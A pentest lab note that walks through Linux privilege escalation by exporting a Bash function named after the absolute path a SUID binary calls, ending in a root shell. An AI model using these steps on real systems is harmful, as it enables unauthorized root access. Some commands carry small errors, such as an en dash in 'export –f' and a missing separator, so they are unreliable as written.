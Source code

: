 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

In some shells (notably Bash <4.2-048) it is possible to define user functions with an absolute path name.

These functions can be exported so that subprocesses have access to them, and the functions can take precedence over the actual executable being called.

1. Find SUID/SGID files on the target:

```bash - target
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

==-rwsr-sr-x 1 root staff 6899 May 14 2017 /usr/local/bin/suid-env2==

The suid-env file should execute with root user permissions.

2. Run strings on the SUID file:

```bash - target
strings /usr/local/bin/suid-env2
```

/usr/sbin/service apache2 start

The file could be trying to run the /usr/sbin/service program.

3. We can verify this with strace:

```bash - target
strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service
```

> [pid 16729] execve("/bin/sh", ["sh", "-c", "/usr/sbin/service apache2 5start"]...

4. Optionally, we can also verify with ltrace:

```bash - target
ltrace /usr/local/bin/suid-env2 2>&1 | grep service
```

system("/usr/sbin/service apache2 start"

This reveals that the system function is being used to execute the /usr/sbin/service program.

5. Verify the version of Bash is lower than 4.2-048:

```bash - target
bash --version
```

GNU bash, version 4.1.5(1)-release (x86_64-pc-linux-gnu)

6. Create a Bash function with the name “/usr/sbin/service” and export the function:

```bash - target
function /usr/sbin/service { /bin/bash -p; } export –f /usr/sbin/service
```

7. Execute the SUID file for a root shell:
```bash - target
/usr/local/bin/suid-env2
```

```bash - target
id
```

> uid=0(root) gid=0(root) groups=0(root)


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
